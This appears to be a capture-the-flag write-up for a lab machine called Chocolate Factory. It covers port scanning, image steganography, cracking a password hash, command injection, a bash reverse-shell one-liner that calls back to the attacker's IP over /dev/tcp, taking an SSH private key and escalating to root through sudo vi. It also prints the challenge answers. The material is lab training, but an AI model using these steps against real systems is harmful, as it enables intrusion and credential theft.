


# CHOCOLATE FACTORY

---------------------
## IP: `10.10.239.116`<br />

---------------------
##### Open Ports Via Nmap -

`nmap -sC -sV -oN nmap/initial 10.10.239.116`<br />


```
21
22
80
100
106
109
110
111
113
119
125
```

-----------------------
##### We saw `anonymous` ftp login is enabled -<br />


> we get a jpg file<br />


> we can extract hidden data inside this image using steghide:<br />

Leave the passphrase field empty (:<br />

`steghide extract -sf gum_room.jpg`<br />

> We get a `base-64` encoded txt file<br />

To encode it we can do-<br />

`cat b64.txt | base64 -d > decodedB64`<br />


Yay we get charlie user's hash, we can crack it using john/hashcat<br />

First, store the hash inside a file:<br />

`echo '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/' > charlieHASH`<br />

```
john charlieHASH --w=/usr/share/wordlists/rockyou.txt
```


> We got the charlie's pass - <br />

```
cn7824
```

But we can't login via ssh with these creds, now i did a gobuster scan to find subdirectories (:<br />

`gobuster dir -u http://10.10.239.116 -w /usr/share/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 30 | tee gobuster.log`<br />

We get the following results-<br />


```
/home.php
/index.html
```

-------------------
> Now there is a bit of a hoax and i don't know the why the owner did this?! lol<br />

1. If we navigate to `http://10.10.239.116/index.html`, we can see a login form. We can login via charlie creds.<br />



And we get redirected to `/home.php` and there's a command injection form, and we can execute and see results for commands like `id`, `whoami`, ...<br />



2. Or we can straight-forward navigate to `/home.php` and access that page, right!<br />

3. Never mind, let's get our rev-shell-<br />

`bash -c 'exec bash -i &>/dev/tcp/10.8.91.66/8888 <&1'`<br />


4. Let's stabilize our shell-<br />

`python3 -c 'import pty;pty.spawn("/bin/bash")'`<br />

`export TERM=xterm`<br />

`^Z` (ctrl+z)<br />

To put the process in background<br />

`stty raw -echo;fg`<br />

To foreground the process<br />

--------------------
##### Task 2 - Challenges <br />

1. Enter the key you found!<br />

> We can found the key in /var/www/html<br /> 

`cat key_rev_key`<br />


```
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
```

2. What is Charlie's password?<br />

```
cn7824
```

3. change user to charlie<br />

> We already checked that charlie's cracked hash wasn't the pass for ssh<br />

So we can directly `cd /home/charlie` from `www-data` user <br />

Here we will find user's ssh private key `teleport`, copy it in you machine and login via ssh<br />


We can login without the need for pass now, cuz we got charlie's ssh private key <br />

But after copy/pasting the private key to our machine, we need to give it read and write permisssions:<br />

`chmod 600 teleport`<br />

`ssh -i teleport charlie@10.10.239.116`<br />

4. Enter the user flag<br />

```
flag{cd..............................}
```

-------------------
##### Privilege Escalation Of User `charlie`: <br />

> First, we try checking sudo abilities of the user, by doing-<br />

`sudo -l`<br />


We found `/usr/bin/vi`, cool we can go-ahead and check [GTFO-BIN]() for vi-<br />


Ay, we are root `#` let's get our root flag<br />

`cd /root`<br />

We see a python script `root.py`, hmm<br />

> Let's cat that script and see what's inside it-<br />


Okay, it needs a key and we found a key in `/var/www/html`

> Let's run the python script-<br />

`python root.py`<br />

Enter the key we found...<br />

AY, we got our last flag, let's paste it and complete our challenge `<3`<br />


5. Enter the root flag<br />

```
flag{ce..............................}
```


Congratulations Friend For Making It Up To Here<br />
h00dy<br />